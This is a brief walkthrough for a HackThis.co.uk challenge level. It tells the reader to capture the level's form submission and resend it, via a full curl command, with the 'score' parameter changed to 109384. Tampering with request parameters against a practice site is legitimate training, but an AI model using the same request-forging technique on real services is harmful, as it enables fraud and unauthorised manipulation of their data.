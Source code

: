 


Go to Network, check for b3?submit and resend the request with the 'score' modified to 109384.

curl 'https://www.hackthis.co.uk/levels/b3.php?submit' -H 'Connection: keep-alive' -H 'Cache-Control: max-age=0' -H 'Origin: https://www.hackthis.co.uk' -H 'Upgrade-Insecure-Requests: 1' -H 'DNT: 1' -H 'Content-Type: application/x-www-form-urlencoded' -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3' -H 'Referer: https://www.hackthis.co.uk/levels/b3.php?submit' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9,vi;q=0.8' -H 'Cookie: PHPSESSID=...; member=1' --data 'score=109384' --compressed